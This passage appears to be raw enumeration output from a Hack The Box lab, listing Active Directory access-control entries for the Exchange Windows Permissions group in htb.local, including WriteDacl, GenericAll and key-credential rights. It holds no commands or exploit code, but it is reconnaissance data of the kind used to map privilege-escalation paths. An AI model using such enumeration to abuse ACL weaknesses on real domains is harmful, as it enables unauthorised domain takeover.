ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-UM-Spoken-Name
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Garbage-Coll-Period
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Garbage-Coll-Period
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-UM-Pin-Checksum
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Legacy-Exchange-DN
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Legacy-Exchange-DN
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Self-Membership
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : SAM-Account-Name
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-Exch-Safe-Senders-Hash
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty, WriteProperty
ObjectAceType          : ms-DS-Key-Credential-Link
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-526
AccessMask             : 48
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty, WriteProperty
ObjectAceType          : ms-DS-Key-Credential-Link
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-527
AccessMask             : 48
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : DeleteTree, WriteDacl
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 262208
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : inetOrgPerson
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : DeleteTree, WriteDacl
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 262208
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : User
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : CreateChild, DeleteChild, ListChildren, ReadProperty, WriteProperty, ListObject
ObjectAceType          : ms-Exch-Public-Folder
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 183
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : CreateChild, DeleteChild, ListChildren, ReadProperty, WriteProperty, ListObject
ObjectAceType          : ms-Exch-Active-Sync-Device
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 183
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : GenericAll
ObjectAceType          : ms-Exch-Dynamic-Distribution-List
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask             : 983551
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : GenericAll
ObjectAceType          : ms-Exch-Dynamic-Distribution-List
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 983551
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : Delete
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 65536
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : inetOrgPerson
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : Delete
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 65536
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : Computer
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : Delete
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 65536
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : Group
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : Delete
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 65536
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : Organizational-Unit
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : Delete
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 65536
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : User
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : Delete
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 65536
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : Contact
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteDacl
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 262144
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : Group
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : Self
ObjectAceType          : DS-Validated-Write-Computer
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-3-0
AccessMask             : 8
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : Computer
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : Self
ObjectAceType          : DS-Validated-Write-Computer
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-10
AccessMask             : 8
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : Computer
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : Token-Groups
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-9
AccessMask             : 16
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : Computer
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : Token-Groups
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-9
AccessMask             : 16
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : Group
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : Token-Groups
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-9
AccessMask             : 16
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : User
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : ms-TPM-Tpm-Information-For-Computer
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-10
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : Computer
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : GenericAll
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 983551
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : ms-Exch-Active-Sync-Devices
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : GenericAll
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 983551
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : ms-Exch-Public-Folder
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : GenericRead
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 44
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-32-554
AccessMask             : 131220
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : inetOrgPerson
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : GenericRead
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 44
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-32-554
AccessMask             : 131220
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : Group
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : GenericRead
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 44
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-32-554
AccessMask             : 131220
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : User
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : Exchange-Personal-Information
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 40
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-20
AccessMask             : 16
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : Exchange-Information
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 40
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-11
AccessMask             : 16
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty, WriteProperty
ObjectAceType          : ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 40
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-10
AccessMask             : 48
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty, WriteProperty, ExtendedRight
ObjectAceType          : Private-Information
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 40
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-10
AccessMask             : 304
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceType               : AccessAllowed
ObjectDN              : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights : GenericRead
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : True
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask            : 131220
AuditFlags            : None
AceFlags              : ContainerInherit, Inherited
AceQualifier          : AccessAllowed

AceType               : AccessAllowed
ObjectDN              : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : True
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3072663084-364016917-1341370565-519
AccessMask            : 983551
AuditFlags            : None
AceFlags              : ContainerInherit, Inherited
AceQualifier          : AccessAllowed

AceType               : AccessAllowed
ObjectDN              : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights : ListChildren
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags      : ContainerInherit
BinaryLength          : 24
IsInherited           : True
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-32-554
AccessMask            : 4
AuditFlags            : None
AceFlags              : ContainerInherit, Inherited
AceQualifier          : AccessAllowed

AceType               : AccessAllowed
ObjectDN              : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights : CreateChild, Self, WriteProperty, ExtendedRight, Delete, GenericRead, WriteDacl, WriteOwner
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags      : ContainerInherit
BinaryLength          : 24
IsInherited           : True
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-32-544
AccessMask            : 983485
AuditFlags            : None
AceFlags              : ContainerInherit, Inherited
AceQualifier          : AccessAllowed

AceType               : AccessAllowed
ObjectDN              : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights : ReadProperty, WriteProperty, GenericExecute
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags      : ContainerInherit
BinaryLength          : 20
IsInherited           : True
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-7
AccessMask            : 131124
